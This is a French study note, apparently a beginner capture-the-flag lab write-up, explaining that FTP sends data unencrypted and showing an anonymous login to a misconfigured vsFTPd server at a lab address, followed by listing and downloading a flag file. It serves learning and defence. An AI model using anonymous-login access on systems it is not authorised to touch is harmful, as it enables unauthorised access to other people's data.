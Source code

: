 ```yaml
---
Reviewed: false
---
```

[Le protocole FTP](https://youtu.be/tOj8MSEIbfA?feature=shared) (File Transfer Protocol) est un protocole d’échange de données entre un client (utilisateur) et un serveur web connecté sur l’internet. C’est un protocole qui ne sécurise pas les échanges de données, celles-ci sont transmises grâce au TCP/IP et ne sont pas crypté.

![[Untitled 6.png|Untitled 6.png]]

_Un outil bien connu utilisant ce protocole est_ [_Filezilla_](https://filezilla-project.org)

  

Un port exécutant un service actif est un espace réservé pour l'adresse IP de la cible afin de recevoir des demandes et d'envoyer des résultats. Cela signifie que le client doit impérativement avoir plusieurs ports actif s’il souhaite pouvoir effectuer différente tache simultanément. Voici un exemple:

![[Untitled 1 2.png|Untitled 1 2.png]]

  

Aussi, les données n’étant pas crypté, ainsi, n’importe qui interceptant la communication peu lire les données en clair. Ce type d’attaque est appelé: attaque de ==l’Homme du milieu.==

![[Untitled 2 3.png|Untitled 2 3.png]]

![[Untitled 3 3.png|Untitled 3 3.png]]

FTP non sécurisé

![[Untitled 4 2.png|Untitled 4 2.png]]

Utilisation de FTPS et [SSH](https://fr.wikipedia.org/wiki/Secure_Shell).

  

Pour installer / vérifier l’installation du protocole FTP:

```Bash
sudo apt install ftp -y
[...]
ftp is already the newest version (20210827-4build1).
```

Ensuite de ça on peu utiliser l’attribut ==-h== pour voir de quoi le protocole est capable:

```Bash
ftp -h
```

  

On peu ensuite se connecter au serveur avec la commande suivant:

```Bash
ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:kira):
```

Ils nous ai alors proposé d’entrée un nom.  
Une mauvaise configuration du protocole ftp autoriser les utilisateur anonyme à se connecter en tapant le nom  
_anonymous_

```Bash
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:kira): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

  

Une fois connecté, on peu utiliser la commande help / -h / —help pour avoir plus de détails sur ce qu’il est possible de faire.  
Pour plus d’info sur une commande en particulier on peu faire:  

```Bash
man {CommandName}
```

  

Une fois dans le serveur, on peu effectuer la commande bien connu, ls, pour acceder à la liste des dossiers et fichiers.

```Bash
229 Entering Extended Passive Mode (|||29213|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Le protocole ftp nous informe de l’avancement de la commande que nous venons de passer à l’hôte.

  
On repère donc le fichier flag.txt, que l’on peu télécharger:  

```Bash
get flag.txt
local : flag. txt remote: flag. txt
200 PORT command successful. Consider us ing PASV.
150 Opening BINARY mode data connection for flag. txt (32 bytes).
226 Transfer complete.
32 bytes received in secs (33.7838 kB/s)
```

Le fichier à bien été récupéré de la machine !